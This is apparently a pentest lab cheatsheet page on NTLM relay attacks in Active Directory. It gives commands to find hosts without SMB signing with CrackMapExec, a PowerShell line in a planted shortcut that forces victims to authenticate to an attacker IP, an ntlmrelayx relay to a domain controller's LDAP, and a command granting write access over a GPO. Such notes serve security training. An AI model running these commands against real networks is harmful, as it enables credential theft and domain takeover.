

# NTLM Relay

When capturing a [NTLMv1/2](https://aas-n.gitbook.io/cheatsheet/windows-authentication-1/retrieve-windows-hashes) hashes with tools like Responder, attackers have two options:

* crack it to retrieve cleartext passwords
* relay it to gain code execution on a target


The relayed user must have privilege on the target.


### Valid targets <a href="#valid-targets" id="valid-targets"></a>

In order to relay hashes, we must have valid targets. **Valid targets are machines with SMB Signing disabled**.

SMB Signing is disabled by default on every Windows OS, except Windows Server.

To create a list file of valid targets, use [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec):

```bash
cme smb <networkIP>/<cidr> --gen-relay-list relayTargets.txt
```

### Relaying hashes <a href="#relaying-hashes" id="relaying-hashes"></a>

<figure><figcaption></figcaption></figure>

Create a shortcurt lnk file with the below content  and place it inside th shared AI folder.

```powershell
powershell "iwr 172.16.x.x -UseDefaultCredentials"
```

Run the below comamnd in the WSL Linux to relay the credentials to the DC.

```bash
sudo ntlmrelayx.py -t ldap://dcorp-dc.dollarcorp.moneycorp.local --http-port '80,8080' -i --no-smb-server
```

Use netcat to connect to the interavtive session and use the below to add the user to have write access over the GPO.

<pre class="language-aspnet"><code class="lang-aspnet"><strong>write_gpo_dacl studentx {0BF8D01C-1F62-4BDC-958C-57140B67D147}
</strong></code></pre>
